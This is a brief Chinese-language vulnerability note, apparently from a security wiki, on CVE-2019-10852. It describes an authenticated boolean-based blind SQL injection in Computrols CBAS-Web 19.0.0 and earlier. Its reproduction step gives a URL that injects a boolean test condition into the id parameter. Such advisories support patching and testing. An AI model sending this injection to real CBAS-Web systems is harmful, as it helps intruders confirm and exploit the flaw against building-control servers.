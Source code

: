 （CVE-2019-10852）Computrols CBAS Web SQL注入
=============================================

一、漏洞简介
------------

Computrols CBAS-Web经过身份验证的基于布尔的盲SQL注入

二、漏洞影响
------------

19.0.0及以下

三、复现过程
------------

    http://www.0-sec.org/cbas/index.php?m=servers&a=start_pulling&id=1 AND 2510 = 2510
